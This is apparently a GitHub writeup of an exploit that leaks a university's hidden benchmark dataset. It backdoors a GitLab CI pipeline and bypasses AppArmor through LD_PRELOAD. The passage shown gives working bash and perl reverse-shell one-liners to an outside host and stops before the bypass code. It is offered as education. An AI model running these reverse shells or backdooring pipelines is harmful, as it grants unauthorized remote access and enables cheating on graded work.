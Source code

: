 # Abstract

**Extracting secret data protected by an AppArmor profile by injecting a custom library function with `LD_PRELOAD`.**


This is a TUM internal exploit, but I'm still publishing this writeup for educational purposes, as I consider both the security set-up and the exploitation strategy interesting.

<img src="img/AppArmor.png" alt="AppArmor" width="200"/>

[AppArmor](https://www.apparmor.net/) is a Linux kernel security module that offers *per-program* security policies.
Programs are identified by **path**. Authorized programs can switch between different security policies at runtime.


## Background
The set-up can roughly be explained as follows:

The Students have to write a highly optimized C++ program that can parse multiple gigabytes of data in just a few milliseconds (by using SIMD/AVX instructions).
They push their source code to a GitLab instance, which then builds and tests their solution against a hidden dataset, so that the students can not cheat by hardcoding the answer.
The only piece of information they get back is whether their submission was a success or failure.
If their submission is fast enough, they get a grade bonus for the exam.

If one were able to leak the test dataset, one could either hard-code an answer, or optimize ones submission against the test dataset, claiming pole position on the leaderboard.

As the students are able to submit arbitrary code, a special solution was devised to keep them from leaking the hidden dataset:
1. The student program is compiled and uploaded to the test server. In this case the test server is an actual physical machine, so that benchmark results are reported accurately. It offers access to an *unprivileged* user account, that is not allowed to read the test dataset, but can otherwise freely use the system.

2. A special, *trusted* `measure` program is accessible to the unprivileged user. The `measure` program can only be read or executed, but not modified.
It performs the following three crucial functions:
    1. It uses AppArmor to [change the active security profile](https://man.archlinux.org/man/aa_change_hat.2.en). The new security profile is allowed to access the test dataset, but not allowed to do any kind of I/O. Among other things, it blocks file system access, network operations and the stdout file descriptor.
    2. It logs the current system time, executes the untrusted user program, redirects its output into a buffer and logs the current time again, once the user program returns or times out.
    3. It swaps the security profile back to the unprivileged profile, compares the logged buffer content with the expected answer, and, if correct, uploads the time required by the user program to generate the answer to the leaderboard.
    It also prints feedback (the measured time required and whether the answer was correct) to stdout.

    
## Exploitation

### 1. Backdooring the GitLab CI/CD pipeline

This is not strictly necessary (and not exactly difficult since we control the GitLab `.gitlab-ci.yml`), but a reverse shell makes it much easier to inspect the system and debug our exploitation efforts on the spot, instead of having to wait for the entire CI/CD pipeline to run through after every change.

A quick reverse shell should be in the repertoire of every hacker.
My personal favorite being a simple:
```bash
sh -i >& /dev/tcp/feuermagier.com/1337 0>&1
```
or alternatively with perl:
```perl
perl -e 'use Socket;$i="feuermagier.com";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
in case the first one is making problems.
You'll be surprised by how many systems and even minimalist dev-containers ship with perl installed.

In any case, inserting this into the deployment script leaves us with a simple, but functional reverse shell.

### 2. Bypassing AppArmor protection
Let us take a quick look at the Ghidra disassembler output of relevant section of the `measure` program:
![measure](img/measure.png)
Line `92` swaps into the privileged profile. Line `129` swaps out of it.\
Line `122` executes the untrusted program.

The problem is that we can not simply call [`aa_change_hat()`](https://man.archlinux.org/man/aa_change_hat.2.en) ourselves.
The [AppArmor](https://www.apparmor.net/) kernel security module checks the binary origin path of the process executing the respective syscall.
If we were to call this function in our untrusted program (or any other program placed on the target machine), the security profile change would be *denied*. Only a process with the origin binary `/data/delivery/measure` (the path of the trusted measure program) may perform the hat change.

How can we *become* the measure program?\
We can not write or modify it, but there is one thing we control:
